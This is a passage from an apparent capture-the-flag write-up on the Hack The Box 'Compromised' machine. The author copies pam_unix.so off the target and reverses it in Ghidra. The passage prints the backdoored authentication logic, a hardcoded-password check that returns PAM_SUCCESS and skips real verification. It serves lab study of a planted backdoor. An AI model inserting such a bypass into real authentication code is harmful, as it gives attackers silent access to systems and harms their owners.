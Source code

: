 
### Checking if both files are the same
```console
sysadmin@compromised:~$ diff -s /lib/x86_64-linux-gnu/security/.pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so 
Files /lib/x86_64-linux-gnu/security/.pam_unix.so and /lib/x86_64-linux-gnu/security/pam_unix.so are identical
```
Both files are identical. So lets copy a file to our local box and analyse it on Ghidra.

### Downloading to our local box using scp
```console
local@local:~/Documents/htb/boxes/compromised$ scp sysadmin@10.10.10.207:/lib/x86_64-linux-gnu/security/pam_unix.so pam_unix.so
sysadmin@10.10.10.207's password: 
pam_unix.so                                              100%  194KB 162.7KB/s   00:01    
```
## Reversing using Ghidra
### Normal logic for verification on pam-unix.so
```console
  	/* verify the password of this user */
! 	retval = _unix_verify_password(pamh, name, p, ctrl);
```

### Modified logic for backdoor
```console
  	/* verify the password of this user */
!         if (strcmp(p, "_PASSWORD_") != 0) {
!           retval = _unix_verify_password(pamh, name, p, ctrl);
!         } else {
!           retval = PAM_SUCCESS;
!         }
```
So after analysing the binary, I searched the functions from which the function **unix_verify_password** is being called.
![8](/assets/images/compromised/8.png)
Looking at the function call graph on Ghidra, **unix_verify_password** is being called from the function **pam_sm_authenticate** and **pam_sm_chauthok**. So lets check these functions out.

